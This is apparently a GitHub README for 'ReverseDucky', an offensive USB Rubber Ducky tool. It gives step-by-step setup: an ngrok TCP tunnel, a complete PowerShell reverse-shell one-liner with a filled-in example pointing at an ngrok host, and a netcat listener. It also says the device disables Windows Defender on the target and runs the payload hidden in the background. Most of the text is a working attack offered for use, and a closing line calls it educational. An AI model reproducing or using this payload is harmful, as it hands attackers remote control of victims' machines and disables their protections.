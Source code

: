 # ReverseDucky - Hahahaha quack quack!


Start tunneling...
```
ngrok tcp 1337
```

Sample ngrok output...
```
K8s Gateway API support available now: https://ngrok.com/r/k8sgb

Session Status                online
Account                       mkdirlove (Plan: Free)
Version                       3.8.0
Region                        Asia Pacific (ap)
Latency                       31ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ap.ngrok.io:16038 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    33.52   223.30 
```
After running ngrok you will notice the value of "Forwarding". Edit the payload below and replace NGROK_IP AND NGROK_PORT with the data from the value of "Forwarding".

```
$client = New-Object System.Net.Sockets.TCPClient("{NGROK_IP}",{NGROK_PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Example:
```
$client = New-Object System.Net.Sockets.TCPClient("0.tcp.ap.ngrok.io",16038);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Open new terminal and run netcat listener and wait for a reverse connection from port 1337
```
nc -lvnp 1337
```

After plugging the USB Rubber Ducky on the target machine it will automatically disable the Windows Defender and open a hidden Powershell that will download the payload and execute it in the background.

```
This information is for educational purposes only.

~MR.$UD0
```
